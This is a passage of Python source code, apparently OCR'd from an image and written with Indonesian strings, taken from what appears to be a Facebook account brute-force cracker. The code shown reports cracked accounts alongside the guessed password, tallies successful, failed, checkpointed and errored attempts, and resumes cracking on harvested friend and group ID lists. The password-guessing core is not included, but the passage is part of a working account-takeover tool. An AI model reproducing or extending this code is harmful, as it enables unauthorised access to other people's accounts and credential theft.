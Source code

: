 	print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m100%\033[31;1m]\033[0m     ')

	if len(akun_sukses) != 0:

		tampil('\rh[*]Daftar akun sukses')

		for i in akun_sukses:

			tampil('\rh==>\rk%s \rm[\rp%s\rm]'%(i,sandi))

	tampil('\rh[*]Jumlah akun berhasil\rp      %d'%len(akun_sukses))

	tampil('\rm[*]Jumlah akun gagal\rp         %d'%len(akun_gagal))

	tampil('\rk[*]Jumlah akun cekpoint\rp      %d'%len(akun_cekpoint))

	tampil('\rc[*]Jumlah akun error\rp         %d'%len(akun_error))

	if p:

		i = inputD('[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])

		if i.upper() == 'Y':

			return crack(data)

		else:

			return menu()

	else:

		return 0

def lanjutT():

	global fid_bteman

	if len(fid_bteman) != 0:

		i = inputD('[?]Riset Hasil Id Teman/lanjutkan (r/l)',['R','L'])

		if i.upper() == 'L':

			return crack(fid_bteman)

		else:

			os.remove(os.sys.path[0]+'/MBFbteman.txt')

			fid_bteman = []

	return 0

def lanjutG():

	global fid_bgroup

	if len(fid_bgroup) != 0:

		i = inputD('[?]Riset Hasil Id Group/lanjutkan (r/l)',['R','L'])

		if i.upper() == 'L':

			return crack(fid_bgroup)
